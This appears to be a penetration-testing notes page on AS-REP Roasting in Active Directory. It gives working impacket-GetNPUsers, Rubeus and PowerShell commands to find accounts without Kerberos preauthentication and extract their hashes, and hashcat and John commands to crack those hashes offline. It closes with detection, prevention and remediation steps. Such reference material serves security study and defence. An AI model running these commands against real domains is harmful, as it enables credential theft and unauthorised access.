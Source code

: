 # AS-REP Roasting

## Overview
AS-REP Roasting is an attack technique targeting Kerberos authentication where an attacker requests authentication service reply (AS-REP) messages for users with **"Do not require Kerberos preauthentication"** enabled, allowing offline password cracking.

## Prerequisites
- **Domain user account** (even low-privileged)
- **Target accounts** with "Do not require Kerberos preauthentication" enabled
- **Network access** to Domain Controller

## How It Works
1. **Enumerate users** with preauthentication disabled
2. **Request AS-REP** from KDC without providing password proof
3. **Extract hash** from AS-REP response
4. **Crack offline** using tools like Hashcat or John

## Attack Steps

### 1. Enumerate Vulnerable Users
```bash
# Using impacket-GetNPUsers
impacket-GetNPUsers domain.com/ -usersfile users.txt -format hashcat -outputfile hashes.asreproast

# With credentials
impacket-GetNPUsers domain.com/username:password -request -format hashcat -outputfile hashes.asreproast

# PowerShell (on Windows)
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

### 2. Request AS-REP Without Preauthentication
```bash
# Using Rubeus (Windows)
Rubeus.exe asreproast /user:targetuser /format:hashcat /outfile:hash.txt

# Using impacket-GetNPUsers
impacket-GetNPUsers domain.com/user:pass -request -dc-ip 10.10.10.10
```

### 3. Extract and Format Hash
```bash
# Example AS-REP hash format
$krb5asrep$23$user@DOMAIN.COM:hash_value_here
```

### 4. Crack Password Offline
```bash
# Using Hashcat
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --rules-file /usr/share/hashcat/rules/best64.rule

# Using John the Ripper  
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.asreproast
```

## Tools Used

### Impacket Suite
```bash
# GetNPUsers.py - Main tool for AS-REP roasting
impacket-GetNPUsers domain.com/username:password -request -format hashcat

# With user list
impacket-GetNPUsers domain.com/ -usersfile users.txt -format hashcat -no-pass
```

### Rubeus (Windows)
```bash
# AS-REP roast single user
Rubeus.exe asreproast /user:username

# AS-REP roast all users
Rubeus.exe asreproast /format:hashcat /outfile:asrep_hashes.txt
```

### PowerShell
```powershell
# Find users with preauthentication disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth | Select Name, DoesNotRequirePreAuth
```

## Detection
- **Monitor Event ID 4768**: Kerberos authentication ticket (TGT) was requested
- **Look for AS-REQ without preauthentication data**
- **Unusual patterns** of AS-REP requests
- **Failed authentication attempts** on service accounts

## Prevention
1. **Enable Kerberos preauthentication** for all users
2. **Use strong passwords** for service accounts
3. **Regular password rotation**
4. **Implement account lockout policies**
5. **Monitor Kerberos logs** for suspicious activity
6. **Use Group Managed Service Accounts (gMSA)**

## PowerShell Remediation
```powershell
# Enable preauthentication for specific user
Set-ADUser -Identity "username" -DoesNotRequirePreAuth $False

# Find and fix all users with disabled preauthentication
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} | Set-ADUser -DoesNotRequirePreAuth $False
```

## Related Attacks
- [[Kerberoasting]] - Targeting service accounts
- [[Golden Ticket]] - Kerberos ticket forging
- [[Silver Ticket]] - Service ticket forging
- [[Pass the Ticket]] - Kerberos ticket reuse

## Related Tools
- [[Impacket]]
- [[Rubeus]]
- [[Bloodhound]] - AD enumeration
- [[JohnTheRipper]]
- [[Hashcat]]

## References
- [[Active Directory]]
- [[Kerberos]]
- [[Domain Controller (DC)]]

